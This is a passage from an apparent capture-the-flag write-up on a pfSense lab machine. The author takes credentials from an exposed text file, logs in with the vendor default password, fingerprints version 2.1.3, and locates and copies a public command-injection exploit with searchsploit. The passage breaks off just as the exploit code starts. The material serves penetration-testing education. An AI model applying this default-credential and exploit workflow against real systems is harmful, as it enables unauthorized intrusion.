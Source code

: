 And the other file at `https://10.129.140.47/system-users.txt`.
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```
Credentials! Username `Rohit` and password `company defaults` hehe, that's always fun.

## 3. Port 443 HTTPS Exploration with Credentials
Let's try to login to the pfSense page at `https://10.129.140.47` with the credentials we just got, username `Rohit` and password `company defaults`.

![invalid](https://user-images.githubusercontent.com/21957042/116894558-ca8edf00-ac64-11eb-8f4f-f4b9de743ef5.png)

We got a "Username or Password incorrect" error. 

Maybe the password is pfSense's defualt password, which is just `pfsense` when we googled. Let's try username `Rohit` and password `pfsense`. But still we got a "Username or Password incorrect" error.

Turns out, the username must also be lowered-case. So username `rohit` and password `pfsense`. Damn it Rohito! With this credentials, we have access to the pfSense Dashboard.

![page](https://user-images.githubusercontent.com/21957042/116896021-610fd000-ac66-11eb-81a9-a337f07ca365.png)

Doing some exploration, we can see that the version of the pfSense is `2.1.3-RELEASE`.

With this, we can do a Searchsploit.
```
hippoeug@kali:~$ searchsploit pfsense 2.1.3
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                      | php/webapps/43560.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Cool! We could try this `43560.py` script, a Command Injection exploit.

As usual, we will also do a quick Google in case we miss out something obvious. Searching for "pfsense 2.1.3 exploit", we see the same result [43560.py](https://www.exploit-db.com/exploits/43560).

## 4. Port 443 Command Injection Exploit (Python Script)
Let's download the script and give it a shot.
```
hippoeug@kali:~$ searchsploit -m 43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/hippoeug/43560.py
```
Let's also take a quick look at the code to know what we need to run the script.
```
#!/usr/bin/env python3

```